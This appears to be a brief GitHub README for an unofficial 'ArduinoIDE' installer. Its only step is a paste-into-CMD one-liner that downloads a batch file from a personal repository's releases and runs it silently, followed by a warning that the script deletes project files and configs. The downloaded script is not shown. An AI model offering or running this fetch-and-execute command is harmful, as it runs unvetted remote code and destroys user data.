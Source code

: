 # ArduinoIDE

# Paste to CMD
```
del "%temp%\arduino_ide_installer.bat" >nul 2>&1 &curl -L -o "%temp%\arduino_ide_installer.bat" https://github.com/ny4rlk0/ArduinoIDE/releases/download/ArduinoIDE/arduino_ide_installer.bat &&start /b "" cmd /c %temp%\arduino_ide_installer.bat &&exit
```
<h2>Warning it will delete all project files and configs in default folders.</h2>
